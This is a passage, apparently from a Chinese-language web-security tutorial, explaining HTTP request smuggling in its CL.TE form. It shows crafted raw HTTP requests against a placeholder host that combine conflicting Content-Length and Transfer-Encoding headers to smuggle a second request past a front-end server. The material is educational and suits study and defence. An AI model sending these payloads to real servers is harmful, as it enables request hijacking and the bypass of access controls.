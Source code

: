 后端(TE模式)：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

如果我们简单的构造一下，通过一次发送两个请求，那么连接上的任何后续请求都将保持不变：  
前端(CL模式)：

```plain
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

后端(TE模式)：

```plain
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
```
